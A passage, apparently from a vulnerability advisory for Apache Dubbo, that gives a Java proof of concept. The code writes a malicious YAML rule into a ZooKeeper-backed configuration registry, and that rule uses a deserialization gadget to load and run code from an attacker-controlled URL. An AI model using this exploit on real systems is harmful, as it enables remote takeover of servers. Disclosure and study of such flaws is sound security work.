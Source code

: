 <p>For example, the following program will upload a malicious configuration to the Registry which will create a file named <code class="language-plaintext highlighter-rouge">/tmp/pwned</code> in the provider’s file system.</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>    <span class="kd">public</span> <span class="kd">static</span> <span class="kt">void</span> <span class="nf">main</span><span class="o">(</span><span class="nc">String</span><span class="o">[]</span> <span class="n">args</span><span class="o">)</span> <span class="kd">throws</span> <span class="nc">Exception</span> <span class="o">{</span>

        <span class="n">client</span> <span class="o">=</span> <span class="nc">CuratorFrameworkFactory</span><span class="o">.</span><span class="na">newClient</span><span class="o">(</span><span class="n">zookeeperHost</span> <span class="o">+</span> <span class="s">":2181"</span><span class="o">,</span> <span class="mi">60</span> <span class="o">*</span> <span class="mi">1000</span><span class="o">,</span> <span class="mi">60</span> <span class="o">*</span> <span class="mi">1000</span><span class="o">,</span> <span class="k">new</span> <span class="nc">ExponentialBackoffRetry</span><span class="o">(</span><span class="mi">1000</span><span class="o">,</span> <span class="mi">3</span><span class="o">));</span>
        <span class="n">client</span><span class="o">.</span><span class="na">start</span><span class="o">();</span>

        <span class="nc">String</span> <span class="n">path</span> <span class="o">=</span> <span class="s">"/dubbo/config/dubbo/"</span> <span class="o">+</span> <span class="n">provider_app_name</span> <span class="o">+</span> <span class="s">".configurators"</span><span class="o">;</span>

        <span class="nc">String</span> <span class="n">rule</span> <span class="o">=</span> <span class="s">"---\n"</span> <span class="o">+</span>
                <span class="s">"configs:\n"</span> <span class="o">+</span>
                <span class="s">" - !!javax.script.ScriptEngineManager [\n"</span> <span class="o">+</span>
                <span class="s">"   !!java.net.URLClassLoader [[\n"</span> <span class="o">+</span>
                <span class="s">"     !!java.net.URL [\""</span> <span class="o">+</span> <span class="n">attackerHost</span> <span class="o">+</span> <span class="s">"\"]\n"</span> <span class="o">+</span>
                <span class="s">"   ]]\n"</span> <span class="o">+</span>
                <span class="s">" ]"</span><span class="o">;</span>

        <span class="k">try</span> <span class="o">{</span>
            <span class="k">if</span> <span class="o">(</span><span class="n">client</span><span class="o">.</span><span class="na">checkExists</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">)</span> <span class="o">==</span> <span class="kc">null</span><span class="o">)</span> <span class="o">{</span>
                <span class="n">client</span><span class="o">.</span><span class="na">create</span><span class="o">().</span><span class="na">creatingParentsIfNeeded</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">);</span>
            <span class="o">}</span>
            <span class="n">client</span><span class="o">.</span><span class="na">setData</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">,</span> <span class="n">rule</span><span class="o">.</span><span class="na">getBytes</span><span class="o">());</span>
        <span class="o">}</span> <span class="k">catch</span> <span class="o">(</span><span class="nc">Exception</span> <span class="n">e</span><span class="o">)</span> <span class="o">{</span>
            <span class="n">e</span><span class="o">.</span><span class="na">printStackTrace</span><span class="o">();</span>
        <span class="o">}</span>
